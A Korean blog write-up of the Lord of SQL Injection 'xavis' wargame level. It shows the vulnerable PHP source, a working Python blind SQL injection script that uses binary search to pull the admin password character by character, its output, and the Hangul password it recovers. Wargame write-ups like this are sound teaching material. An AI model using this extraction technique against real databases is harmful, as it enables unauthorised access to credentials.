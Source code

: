```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - xavis 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


아 이거 너무 오래 고민했는데 너무 허무하다.  

내가 마블 영화에서 젤 좋아하는게 아이언맨이고 그 중에서도 좋아하는게 자비스 캐릭터였는데, 이 문제때문에 싫어질라고 했다.  

근데 어찌어찌 풀었는데 나한테 화가난다 ㅋㅋㅋㅋ  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw=''
---------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

일단 소스코드는 간단하다.  

보면 `regex`랑 `like`은 사용을 못하도록 되어있는데, 그거 외에 `'`, `"`, `=`, `and`, `or`에 필터링이 없다.  

그래서 처음엔 그냥 `Blind SQL Injection`인줄 알고 이 전에 사용했었던 소스코드를 가져와 돌려보았다.  

그런데 `length`는 `12`라고 나오는데, 막상 `pw`는 `4번째` 문자부터만 찾았다.  

거기다 4번째 문자 ~ 12번째 문자까지가 싹 다 `0`이 나왔다.  

뭔가 이상하다 싶어서 `ord`랑 부등호를 사용해서 첫 번째 글자를 대충 손으로 찾아 보았다.  

그랬더니 값이 무려 `50000`대가 나왔다.  

`hex`로 값을 바꾸어 보니 `0xc6b0`이 나왔는데, 보니까 우리가 일반적으로 사용하는 아스키코드 범위 내의 문자가 아닌 것 같았다.  

그래서 원래 소스코드에서 `48 ~ 127`까지 비교하던 값을 `0x0 ~ 0xffff` 즉,  `0 ~ 65536`까지로 바꾸었다.  

첨엔 이렇게 소스코드 짜고 돌리려고 했는데, 생각해보니 최악의 경우 `0 ~ 65536`까지 `12번`을 비교해야 한다.  

뭔가 서버가 터질까봐 두려워서 횟수를 줄일 수 있는 방법을 찾다가 갑자기 학교 다닐때 배웠던 `이진 탐색`이 생각났다.  

그래서 이 `이진 탐색(Binary Search)` 알고리즘을 사용해서 아래와 같이 소스코드를 구현했다.  

```python
import urllib2
import urllib
import requests

def testEqual(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) = " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def testBigger(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) < " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def searchPw(j, start, end):
        if start > end:
                return "None"

        mid = (start + end) / 2

        if testEqual(j, mid):
                return hex(mid)
        elif testBigger(j, mid):
                end = mid - 1
        else:
                start = mid + 1

        return searchPw(j, start, end)
               
flag = "0x"
length = 0

url = "http://los.rubiya.kr/xavis_04f071ecdadb4296361d2101e4a2c390.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
        try:
                query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
                continue

        if 'Hello admin' in r.text:
                length = i
                break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
        flag += str(searchPw(j, 0, 65535))[2:]
        print "[+] Found ", str(j), "'s pw : ", flag

print "[+] Found password : ", flag
print "[+] End"
```

이 소스코드를 돌리면 결과는 아래와 같이 나온다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  12
[+] Find password
[+] Found  1 's pw :  0xc6b0
[+] Found  2 's pw :  0xc6b0c655
[+] Found  3 's pw :  0xc6b0c655ad73
[+] Found  4 's pw :  0xc6b0c655ad730
[+] Found  5 's pw :  0xc6b0c655ad7300
[+] Found  6 's pw :  0xc6b0c655ad73000
[+] Found  7 's pw :  0xc6b0c655ad730000
[+] Found  8 's pw :  0xc6b0c655ad7300000
[+] Found  9 's pw :  0xc6b0c655ad73000000
[+] Found  10 's pw :  0xc6b0c655ad730000000
[+] Found  11 's pw :  0xc6b0c655ad7300000000
[+] Found  12 's pw :  0xc6b0c655ad73000000000
[+] Found password :  0xc6b0c655ad73000000000
[+] End
```

4번째부터는 `0`이 나오는 걸 보니, 실제로는 3글자인 것 같았다.  

여기까진 어렵지 않게 왔는데, 문제는 지금부터였다.  

딱봐도 그냥 아스키코드는 아니고 확장 아스키코드인가 싶어서 인터넷을 뒤져서 `Converter`에 돌려 보았었다.  

막 다 이상한 문자만 출력 해 주길래 그게 맞는건줄 알고 계속 시도했다.  

근데 아무리 해도 안됨ㅋ  

매일매일 뭐가 잘못된건지 뒤져보는데 아무리봐도 모르겠어서 며칠동안 `내가 코드를 잘못짰나`, 아니면 `변환기를 잘못 사용했나` 해서 진짜 사이트 여기저기 돌아다니면서 `Converter`를 사용 했었다.  

그러다가 며칠만에 오늘... 이 [사이트](https://www.branah.com/unicode-converter)를 발견했다.  

여기 아래 부분에 보면 `Decimal`이라고, 10진수로 값을 입력하는 곳이 있다.  

그 칸에 나온 글자 3개의 `hex` 값을 `10진수`로 바꾸어 입력 해 주었다.  

```
508645077344403

OR

50864 50773 44403
```

그랬더니 맨 위 칸에 `우왕굳`이라고 나왔다.  

ㅋ  

결국 한글이었다.  

난 그것도 모르고 변환기가 이상한 문자를 주길래 걔인가 해서 며칠동안 걔만 시도했는데 아니었다.  

왜 그 사이트에서는 이상한 문자로 준건지를 모르겠다.  

`hex`로 입력했을 때랑 `decimal`로 입력했을 때랑 다른 값을 주는건가...?  

그럴리가..  

어쨌든 왜 제대로 변환이 안됬는지 원인은 모르겠지만, `우왕굳`을 입력 해 주니 며칠간의 삽질을 끝낼 수 있었다.  

```
?pw=우왕굳
```

```php
----------------------------------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw='우왕굳'
----------------------------------------------------------------------------------------

Hello admin
XAVIS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`XAVIS Clear!!`
